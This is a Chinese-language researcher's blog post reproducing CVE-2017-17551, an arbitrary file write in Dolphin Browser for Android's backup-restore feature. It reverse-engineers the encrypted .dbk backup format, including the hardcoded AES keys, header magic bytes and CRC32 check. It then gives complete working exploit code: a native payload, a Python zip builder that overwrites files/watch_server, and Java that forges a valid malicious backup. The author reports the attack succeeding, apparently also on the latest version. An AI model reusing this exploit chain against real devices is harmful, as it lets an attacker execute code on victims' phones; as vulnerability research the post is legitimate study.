



Author：Potato Couplee
那天看鹅场玄武实验室日常安全推送的时候，发现有一个海豚浏览器的任意文件读写漏洞，试着复现了一波
公开漏洞细节的博客
以前看这些英文博客都可以自己看的，现在一看到这种文章就想着让李神探帮我翻译，毕竟六级考了五百多分的人
按照作者的细节描述，先定位到一个浏览器备份工具类com.dolphin.browser.util.g，感受到了挖洞大佬的恐怖，这要是手动挖。。。。。。
贼强

作者也说了是搜索ZipInputStream和ZipFile这两个函数的使用时发现的，学习了！
The vulnerability was discovered by searching for ZipInputStream and ZipFile API usage. The com.dolphin.browser.util.g class contains a method with cross references to the ZipInputStream class.
根据描述定位到关键位置，和作者的有点不一样，因为作者把Exception里的代码删了
这样就一样了，一看就是JEB反编译的，连寄存器的命名都一样
try {
v1_2 = new ZipInputStream(((InputStream)v3));
}
try {
File v0_6 = new File(this.b.getApplicationInfo().dataDir);
while(true) {
ZipEntry v2_1 = v1_2.getNextEntry();
if(v2_1 == null) {
break;
}
BufferedOutputStream v2_2 = new BufferedOutputStream(new FileOutputStream(new File(v0_6 + File.separator + v2_1.getName())));
IOUtilities.copy(((InputStream)v1_2), ((OutputStream)v2_2));
v2_2.flush();
v2_2.close();
v1_2.closeEntry();
}
}
这样子看其实很不直观，根本不知道怎么传进来的，所以我整理了下这个函数，去掉了无关的代码，可以较为清楚的看到传入的流程，指定一个文件以及传入解密秘钥，然后解密为Zip文件写出，如果秘钥为空，使用默认的秘钥"3d6b27465424597a55443e7532"
private void c(File file, String arg8) throws myException {
CipherInputStream cipherInputStream_1;
ZipInputStream zipInputStream; // 解密后的数据类型转为ZipInputStream
BufferedInputStream bufferedInputStream_1;
CipherInputStream cipherInputStream_2; // 解密传入的数据流
BufferedInputStream bufferedInputStream_2; // 将文件读入缓冲区流
Closeable closeable = null;
try {
if(!file.exists()) {
throw new e();
}
this.a(); // cipher = "AES/ECB/PKCS5PADDING"
bufferedInputStream_2 = new BufferedInputStream(new FileInputStream(file)); // 将文件读入缓冲区流
}
try {
if(TextUtils.isEmpty(((CharSequence)arg8))) {
arg8 = "3d6b27465424597a55443e7532"; // 加密秘钥，可以由用户传入，若用户不传入，则由默认秘钥加密
}
this.cipher.init(2, this.b(arg8)); // 用秘钥初始化cipher，秘钥为b("3d6b27465424597a55443e7532")的值
b.a(((InputStream)bufferedInputStream_2), this.cipher); // 仿佛在做CRC32校验
cipherInputStream_2 = new CipherInputStream(((InputStream)bufferedInputStream_2), this.cipher); // 解密传入的数据流
}
try {
zipInputStream = new ZipInputStream(((InputStream)cipherInputStream_2)); // 解密后的数据类型转为ZipInputStream
}
try {
File selfMainFile = new File(this.context.getApplicationInfo().dataDir); // 获取程序主目录
while(true) {
ZipEntry zipEntry = zipInputStream.getNextEntry();
if(zipEntry == null) {
break;
}
BufferedOutputStream bufferedOutputStream = new BufferedOutputStream(new FileOutputStream(new File(selfMainFile + File.separator + zipEntry.getName()))); // 拼接解压目录
IOUtilities.copy(((InputStream)zipInputStream), ((OutputStream)bufferedOutputStream)); // 拷贝数据
bufferedOutputStream.flush(); // 刷新缓冲区，将数据写出到文件
bufferedOutputStream.close();
zipInputStream.closeEntry();
}
}
try {
IOUtilities.closeStream(((Closeable)zipInputStream));
}
return;
}
大概像这样

使用交叉引用发现就被一个函数调用了，从下面的"restore"来看，是恢复文件的意思
public void a(File file, String descPass) throws myException {
bf v1 = bf.b("restore"); // 生成一个不知道干嘛的对象
try {
this.c(file, descPass); // 参数一是文件对象，参数二是用户传入的秘钥，用于解密
BrowserProvider.a(this.context); // 发送解密完成广播
}
catch(Throwable v0) {
v1.a();
throw v0;
}
v1.a();
}
在释放完之后会发送一个广播BrowserProvider.a()
BrowserProvider.a = new Intent("mobi.mgeek.tunnybrowser.action.bookmarks_changed");
public static void a(Context context) {
context.sendBroadcast(BrowserProvider.a); // 发送广播"mobi.mgeek.tunnybrowser.action.bookmarks_changed"
}
我们进行调用路径的回溯，作者在博客里直接说找AndroidManifest.xml，但是我想找到哪里调用的，所以我们一层层回溯
public void b(String descPass, File file) throws myException {
com.dolphin.browser.util.g.a(this.aM).a(file, descPass);
}
再回溯，发现此处在获取界面控件的数据，然后调用关键函数进行文件解密释放
protected Integer a(Void[] arg4) {
Integer integer;
BrowserSettings setting = BrowserSettings.getInstance();
File file = new File(this.a.f);
String descPass = TextUtils.isEmpty(b.a(this.a).getText()) ? null : b.a(this.a).getText().toString(); // 获取用户输入的密码
try {
setting.b(descPass, file); // 关键函数
integer = Integer.valueOf(0);
}
catch(myException v0_1) {
Log.e("BackupRestoreActivityHelper", ((Throwable)v0_1));
integer = Integer.valueOf(2);
}
catch(com.dolphin.browser.util.g$d v0_2) {
integer = Integer.valueOf(1);
}
return integer;
}
那就可以开始和作者一样猜测了，这里有一个可以选择文件的界面，同时可以选择输入秘钥，再结合前面的各种Backup，Restore字眼，可以猜到是恢复备份文件，开始在应用里面摸索
在设置里有一个备份与还原，点进去发现会自动生成文件名，以时间戳为名，后面加上Backup，路径可选，可选择是否用自定义密码加密，结合前面分析，这里若不使用密码则会使用硬编码的秘钥进行加密

备份完成后，使用还原功能，会自动选择备份文件，后缀是.dbk，然后会提示输入密码

再次备份一个，不使用密码加密，重新点击还原，会发现这次并没有提示要密码，并且还原的是最新的备份

我们选择备份到其它文件夹下

再次还原备份，此时的路径是我们自定义的文件夹下

所以分析到这里就有意思了，我们总结一下目前分析出来的：
时间戳+"Backup.dbk"/storage/emulated/0/初步的攻击方式：我们可以生成一个符合备份格式的备份文件，并且命名最新，放在默认备份路径下，然后还原备份文件的时候，就会解压出我们伪造的文件（此时只是可以在程序安装目录下释放一个Zip压缩文件）
后面的其实就已经不需要分析了，因为将备份文件解密出来后，它是一个Zip压缩包，那么这个压缩包肯定是要解压的，然后进行数据的覆盖恢复等，同理，我们可以猜测生成备份文件的过程，先获取文件数据，压缩，然后加密成为备份文件
既然要解压，而且没有任何校验和过滤，我们就得到了一个任意文件写的机会（有权限的情况下）
如作者所说，我们在files文件夹下找到了一个可执行文件，那么我们可以生成一个恶意的可执行文件，然后压缩为files/watch_server，那么在进行解压缩的时候，就会被解压到这个路径下，替换掉watch_server文件

搞清楚了漏洞触发原因，搞清楚了漏洞攻击过程，我们现在来复现它
第一个问题就是，我们要生成一个含有攻击代码的合法备份文件，这个时候就需要来分析下校验过程了，之前有一个地方我写的备注是仿佛是CRC32校验，那个地方在后续的分析中发现就是对备份文件格式的合法性校验（不是来源校验）
依旧是这里，我们假设没有密码，没有密码则默认使用一个硬编码字符串
if(TextUtils.isEmpty(((CharSequence)descPass))) {
descPass = "3d6b27465424597a55443e7532"; // 加密秘钥，可以由用户传入，若用户不传入，则由默认秘钥加密
}
this.cipher.init(2, this.b(descPass)); // 用秘钥初始化cipher，秘钥为b("3d6b27465424597a55443e7532")的值
b.a(((InputStream)bufferedInputStream_2), this.cipher); // 仿佛在做CRC32校验
cipherInputStream_2 = new CipherInputStream(((InputStream)bufferedInputStream_2), this.cipher); // 解密传入的数据流
使用b()函数初始化一个cipher，会和另一个硬编码的秘钥进行拼接，目测是增强秘钥强度（猜），或者保证生成的秘钥长度够长，然后调用一个au.b()函数，生成一个字节数据，取前16位，赋值给v1，初始化secretKeySpec，加密方式为AES
private Key b(String arg6) {
Key key;
String v0 = "58324759256a4d792828644f3c" + arg6;
try {
byte[] v0_2 = au.b(v0.getBytes("utf-8"));
byte[] v1 = new byte[0x10];
System.arraycopy(v0_2, 0, v1, 0, 0x10);
SecretKeySpec secretKeySpec = new SecretKeySpec(v1, "AES");
}
catch(UnsupportedEncodingException v0_1) {
Log.e("BackupHelper", ((Throwable)v0_1));
key = null;
}
return key;
}
au.b()函数是计算SHA-1散列的函数，返回字节数组
public static byte[] b(byte[] arg2) {
byte[] v0 = null;
if(arg2 != null && arg2.length != 0) {
try {
MessageDigest v1_1 = MessageDigest.getInstance("SHA-1");
v1_1.reset();
v1_1.update(arg2);
v0 = v1_1.digest();
}
catch(NoSuchAlgorithmException v1) {
Log.e(((Throwable)v1));
}
}
return v0;
}
最关键的就是一直说的仿佛在做CRC32校验
b.a(((InputStream)bufferedInputStream_2), this.cipher); // 仿佛在做CRC32校验
我们跟入，去掉不必要的Exception
public static b a(InputStream inputStream, Cipher cipher) throws myException {
boolean v0_4;
int v3;
byte[] v0_3;
CRC32 crc32;
b v1 = new b();
try {
crc32 = new CRC32();
v0_3 = new byte[b.a.length];
if(inputStream.read(v0_3) == b.a.length && (Arrays.equals(v0_3, b.a))) {
crc32.update(v0_3);
v0_3 = new byte[4];
inputStream.read(v0_3);
crc32.update(v0_3);
v1.b = b.a(v0_3);
inputStream.read(v0_3);
crc32.update(v0_3);
v3 = b.a(v0_3);
if(v3 != 0) {
v0_4 = true;
}
else {
goto label_54;
}
goto label_33;
}
goto label_14;
}
label_54:
v0_4 = false;
try {
label_33:
v1.c = v0_4;
if(v1.c) {
if(cipher != null) {
v0_3 = new byte[v3];
inputStream.read(v0_3);
crc32.update(v0_3);
if(!"58324759256a4d792828644f3c".equals(new String(cipher.doFinal(v0_3), "UTF-8"))) {
throw new d();
}
}
else {
throw new d();
}
}
}
int v0_5 = 8;
try {
v0_3 = new byte[v0_5];
inputStream.read(v0_3);
if(crc32.getValue() == b.b(v0_3)) {
return v1;
}
throw new c();
}
return v1;
try {
label_14:
throw new c();
}
}
首先读取6字节长度的数据，通过和一个内置数组进行对比，来判断是否是自定义的备份文件
v0_3 = new byte[b.a.length];
if(inputStream.read(v0_3) == b.a.length && (Arrays.equals(v0_3, b.a))) {
这个数据是b.a，一个6字节数组，也是作者所说的自定义的备份文件标识
private static final byte[] a;
static {
b.a = new byte[]{13, 0, 1, 15, 1, 0};
}
我们将备份文件拷贝出来，路径需要自行确定，不一定是模拟器看到的路径，需要使用命令行确定
C:\Users\wangz\Desktop>adb pull /storage/emulated/legacy/201712211520Backup.dbk C:\Users\wangz\Desktop\
/storage/emulated/legacy/201712211520Backup.dbk: 1 file pulled. 2.2 MB/s (142406 bytes in 0.063s)
使用010editor打开后，观察前6字节，这就是备份文件的文件头标识
0D 00 01 0F 01 00
接下来进行多次读取数据操作
v0_3 = new byte[4];
inputStream.read(v0_3); // 00 00 00 01
crc32.update(v0_3); // 传入数据
v1.b = b.a(v0_3); // 计算后返回一个int数据
inputStream.read(v0_3); // 00 00 00 20
crc32.update(v0_3); // 传入数据
v3 = b.a(v0_3); // 计算后返回一个int数据
转为十进制数据
private static final int a(byte[] arg3) {
int i = 0;
int v1 = 0;
while(i < 4) {
v1 = v1 << 8 | arg3[i] & 255;
++i;
}
return v1;
}
然后根据最后一个数据计算出是否为0，为0则将v0_4置为false，这个值是第10到14位的数据，我的测试数据里是00 00 00 20
接着跳到另一个计算的代码段，由于前面的判断，v0_4为true，如果为false，直接进入后面的校验
咦？我很好奇这个字段为什么会等于零呢？于是我把那个有密码的备份文件导出了，在查看了该字段（最后4个字节）后，我沉默了，有密码和没有密码是一样的，尴尬，先放着好了
0D 00 01 0F 01 00 00 00 00 01 00 00 00 20
在分析了计算的代码段后，我发现，该字段用于生成一个字节数组，如果为0就不能生成了。。。。。。
长度是0x20，也就是32，然后对这32位数据进行AES加密
label_33:
v1.c = v0_4;
if(v1.c) {
if(cipher != null) {
v0_3 = new byte[v3];
inputStream.read(v0_3);
crc32.update(v0_3);
if(!"58324759256a4d792828644f3c".equals(new String(cipher.doFinal(v0_3), "UTF-8"))) {
throw new d();
}
}
else {
throw new d();
}
}
可以看下我的备份文件读取出来的32位数据（默认秘钥的情况下，用代码读的）
8B 7E 4E FC 97 38 3C E6 6F 2F 7F F5 BA 92 6E 59 DC 4A 8F 25 5F F6 78 6C 7F C1 1D 12 F1 D1 55 32
我们来算一下
package com.wnagzihxa1n.demo;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.io.File;
import java.io.FileInputStream;
import java.io.InputStream;
import java.security.MessageDigest;
import java.util.zip.CRC32;
public class Main {
public static byte[] c(byte[] arg2) {
byte[] v0 = null;
if(arg2 != null && arg2.length != 0) {
try {
MessageDigest v1_1 = MessageDigest.getInstance("SHA-1");
v1_1.reset();
v1_1.update(arg2);
v0 = v1_1.digest();
}
catch(Exception v1) {
}
}
return v0;
}
public static SecretKeySpec b(String arg6) {
SecretKeySpec secretKeySpec;
String finalPass = "58324759256a4d792828644f3c" + arg6;
try {
byte[] v0_2 = c(finalPass.getBytes("utf-8"));
byte[] v1 = new byte[0x10];
System.arraycopy(v0_2, 0, v1, 0, 0x10);
secretKeySpec = new SecretKeySpec(v1, "AES");
return secretKeySpec;
}
catch(Exception v0_1) {
}
return null;
}
public static void main(String[] args) throws Exception {
InputStream inputStream = new FileInputStream(new File("201712211520Backup.dbk"));
byte[] temp = new byte[14];
inputStream.read(temp);
byte[] temp2 = new byte[32];
inputStream.read(temp2);
String pass = "3d6b27465424597a55443e7532";
Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5PADDING");
cipher.init(Cipher.DECRYPT_MODE, b(pass));
System.out.println("58324759256a4d792828644f3c");
System.out.println(new String(cipher.doFinal(temp2), "UTF-8"));
}
}
因为想要比较直观的结果，所以直接输出了计算后的数据，是一样的
58324759256a4d792828644f3c
58324759256a4d792828644f3c
接下来进入最后一个计算校验的地方，读取8字节，使用函数b.b()进行计算，最后需要等于计算了多次的crc32.getValue()
int v0_5 = 8;
try {
v0_3 = new byte[v0_5];
inputStream.read(v0_3);
if(crc32.getValue() == b.b(v0_3)) {
return v1;
}
throw new c();
}
那个b.b()是一个转为long类型的函数
private static final long b(byte[] arg7) {
int v6 = 8;
long v2 = 0;
int v0;
for(v0 = 0; v0 < v6; ++v0) {
v2 = v2 << v6 | (((long)(arg7[v0] & 255)));
}
return v2;
}
那么整个校验过程就很清楚了
0D 00 01 0F 01 0014 - 45位数据进行AES解密对比"58324759256a4d792828644f3c"46 - 55位的数据作比较结合前面的分析，我们可以简单的总结一下生成备份文件的过程
0D 00 01 0F 01 00填充0 - 5位00 00 00 01 00 00 00 20填充6 - 13位14 - 45位0 - 45位的CRC32校验值，填充46 - 53位我们使用作者提供的测试代码，执行id命令
#include <android/log.h>
#include <stdlib.h>
int main(int argc, char **argv)
{
FILE *fp;
char path[1035];
fp = popen("/system/bin/id", "r");
if(fp == NULL) {
__android_log_print(ANDROID_LOG_VERBOSE, "CVE-2017-17551", "[+] Failed to run command [!]");
exit(1);
}
while(fgets(path, sizeof(path) - 1, fp) != NULL) {
__android_log_print(ANDROID_LOG_VERBOSE, "CVE-2017-17551", "%s", path);
}
pclose(fp);
return 0;
}
使用ndk-build命令编译一个可执行文件出来，这里需要注意，如果是在模拟器上的复现，需要判断是x86还是arm的，一般商用模拟器玩游戏什么的都是x86，如果是真机就编译arm的
然后生成Zip压缩包，记得要把生成的可执行文件拷贝到脚本所在目录
import zipfile
zf = zipfile.ZipFile("tmp.zip", mode="w")
zf.write("watch_server", arcname="files/watch_server")
使用Java按照格式生成备份文件
package com.wnagzihxa1n.demo;
import javax.crypto.Cipher;
import javax.crypto.spec.SecretKeySpec;
import java.io.*;
import java.security.MessageDigest;
public class Main {
public static byte[] c(byte[] arg2) {
byte[] v0 = null;
if(arg2 != null && arg2.length != 0) {
try {
MessageDigest v1_1 = MessageDigest.getInstance("SHA-1");
v1_1.reset();
v1_1.update(arg2);
v0 = v1_1.digest();
}
catch(Exception v1) {
}
}
return v0;
}
public static SecretKeySpec b(String arg6) {
SecretKeySpec secretKeySpec;
String finalPass = "58324759256a4d792828644f3c" + arg6;
try {
byte[] v0_2 = c(finalPass.getBytes("utf-8"));
byte[] v1 = new byte[0x10];
System.arraycopy(v0_2, 0, v1, 0, 0x10);
secretKeySpec = new SecretKeySpec(v1, "AES");
return secretKeySpec;
}
catch(Exception v0_1) {
}
return null;
}
public static void main(String[] args) throws Exception {
byte[] backupHeader = {0x0d, 0x00, 0x01, 0x0f, 0x01, 0x00, 0x00, 0x00, 0x00, 0x01, 0x00, 0x00,
0x00, 0x20, (byte) 0x8b, 0x7e, 0x4e, (byte) 0xfc, (byte) 0x97, 0x38, 0x3c,(byte) 0xe6, 0x6f,
0x2f, 0x7f, (byte) 0xf5, (byte) 0xba, (byte) 0x92, 0x6e, 0x59, (byte) 0xdc, 0x4a, (byte) 0x8f,
0x25, 0x5f, (byte) 0xf6, 0x78, 0x6c, 0x7f, (byte) 0xc1, 0x1d, 0x12,
(byte) 0xf1, (byte) 0xd1, 0x55, 0x32, 0x00, 0x00, 0x00, 0x00, 0x25, (byte) 0xc0, 0x3b, 0x38};
OutputStream outputStream = new FileOutputStream(new File("myBackup.dbk"), true);
outputStream.write(backupHeader);
InputStream inputStream = new FileInputStream(new File("tmp.zip"));
byte[] temp = new byte[inputStream.available()];
inputStream.read(temp);
Cipher cipher = Cipher.getInstance("AES/ECB/PKCS5PADDING");
cipher.init(Cipher.ENCRYPT_MODE, b("3d6b27465424597a55443e7532"));
outputStream.write(cipher.doFinal(temp));
outputStream.flush();
outputStream.close();
}
}
其实这里代码都不需要自己去写的，既然人家有生成备份的过程，那么完整代码都有的，比如下面就是数组与十进制数转换的过程，一共两组

还有个技巧，那个AES什么秘钥加密的，它算出来是固定的值，不能设置密码，设置了密码让人怎么还原呀？
也就是说，整个头部都是固定的，所以直接就整个拷贝进去
跑起来

可以看到命令执行起来了
我们下载最新12.0.2版本的APK，找到对应的地方，看一下在哪里做了校验，分析是都还有绕过的可能
先判断备份文件格式是否变化，我们生成一个备份文件，拷贝出来，使用代码解密，可以解压出数据，说明备份文件格式没有变化
然后神奇的事情发生了
我并没有找到做了过滤的代码段，没有任何不同。。。。。。
并且，我试着打开我们伪造的备份文件，有意思了

这是什么情况？？？？？？
喵喵喵？？？？？？
说好的只影响< 12.0.2的版本呢？
Dolphin Browser for Android < 12.0.2
后来发现CVE Detail官网上的描述
The Backup and Restore feature in Mobotap Dolphin Browser for Android 12.0.2 suffers from an arbitrary file write vulnerability when attempting to restore browser settings from a malicious Dolphin Browser backup file. This arbitrary file write vulnerability allows an attacker to overwrite a specific executable in the Dolphin Browser's data directory with a crafted malicious executable. Every time the Dolphin Browser is launched, it will attempt to run the malicious executable from disk, thus executing the attacker's code.
Publish Date : 2017-12-11 Last Update Date : 2017-12-11
凉了凉了。。。。。。
一首凉凉送给自己~~~
至于补丁就等官方发布新版之后再分析好了，或许可以找到新的绕过方法